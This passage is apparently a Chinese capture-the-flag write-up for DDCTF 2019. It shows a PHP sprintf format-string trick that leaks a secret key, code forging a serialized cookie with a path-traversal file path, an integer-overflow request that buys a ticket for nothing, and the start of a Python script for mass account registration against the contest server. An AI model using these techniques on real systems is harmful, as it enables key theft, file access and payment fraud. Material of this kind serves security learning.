 ```
        if(!empty($_POST["nickname"])) {
            $arr = array($_POST["nickname"],$this->eancrykey);
            $data = "Welcome my friend %s";
            foreach ($arr as $k => $v) {
                $data = sprintf($data,$v);
            }
            parent::response($data,"Welcome");
        }
这里考察的是sprintf的函数，如果nickname是字符串，那么只会格式化第一次，第二次轮不到eancrykey，所以查询下sprintf函数
sprintf ( string $format [, mixed $... ] ) : string
Returns a string produced according to the formatting string format.
The format string is composed of zero or more directives: ordinary characters (excluding %) that are copied directly to the result and conversion specifications, each of which results in fetching its own parameter.
意思就是第一个format是格式的意思，那凭直觉试nickname=%s,就可以打印出key.txt：EzblrbNS
```

接下来就是构造反序列化的参数了，将上面的Application.php代码放到本地，然后在下面添加

```php
$ddctf1 = new Application();

$ddctf1->path = '...\./config/flag.txt';

$a = serialize($ddctf1);
echo $a;
```

得到反序列字符串，再与EzblrbNS拼接，再得到它的md5值，然后将反序列字符串与md5值拼接，得到cookie,再urlencode，提交得到flag

![](https://wulasite.top/mdimage/ddctf2019/key.png)



## 大吉大利 今晚吃鸡

题目提示：注册用户登陆系统并购买入场票据,淘汰所有对手就能吃鸡啦~

进入题目，是个登录框，有注册按钮，按照题目提示，注册然后登录

![](https://wulasite.top/mdimage/ddctf2019/chiji.png)

点击购买，购买门票之后在订单列表中，有个价格2k的门票要支付，但是我只有100块钱啊！抓包看了下，价格是可以自己修改的。所以想了下，思路往竞争方向想，但是又没有卖的，所以又往溢出的方向想，试了一下各种溢出的上限，发现是unsigned long,上限4294967295。所以 提交http://117.51.147.155:5050/ctf/api/buy_ticket?ticket_price=4294967296，就可以0元购买了。然后进入杀鸡界面

![](https://wulasite.top/mdimage/ddctf2019/ticket.png)

试了试去，就想出个注册小号给大号杀，

脚本：

这里有个坑就是，服务器网络不稳定，然后注册的id会随机，所以，要跑很久。

```python
import requests
import queue
import json
import time



base_url = 'http://117.51.147.155:5050/'
register_url = 'ctf/api/register?name={0}&password={1}'
login_url = 'ctf/api/login?name={}&password={}'
buy_url = 'ctf/api/buy_ticket?ticket_price=4294967296'
get_bill_info_url = 'ctf/api/search_bill_info'
pay_url = 'ctf/api/pay_ticket?bill_id={}'
```